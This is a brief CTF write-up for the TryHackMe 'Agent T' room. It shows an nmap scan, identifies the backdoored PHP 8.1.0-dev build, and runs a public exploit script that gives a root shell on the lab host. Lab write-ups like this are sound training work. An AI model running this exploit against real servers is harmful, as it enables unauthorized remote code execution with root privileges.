 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . Agent T
# DESCRIPTION       . Something seems a little off with the server.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/agentt
```

```bash
nmap -sSVC -T5 -p- -oN agentT 10.10.231.14
```

```
PORT   STATE SERVICE VERSION

80/tcp open  http    PHP cli server 5.5 or later (PHP 8.1.0-dev)
|_http-title:  Admin Dashboard
```

- Couldn't find anything suspicious on the website. In fact, it was just a template that was missing most of the essential pages (even `index.html` was missing). 

- The trick here was to identify that the PHP version used is `8.1.0-dev`. 

- After some googling around, I quickly found out that this version has a backdoor installed in it that allows RCE on the server running.

- The backdoor can be found [here](https://github.com/flast101/php-8.1.0-dev-backdoor-rce). 

```bash
git clone https://github.com/flast101/php-8.1.0-dev-backdoor-rce

cd php-8.1.0-dev-backdoor-rce

python3 backdoor_php_8.1.0-dev.py

Enter the host url:
http://10.10.231.14

Interactive shell is opened on http://10.10.231.14 

$ whoami
root
```

- The flag is at `/flag.txt`. 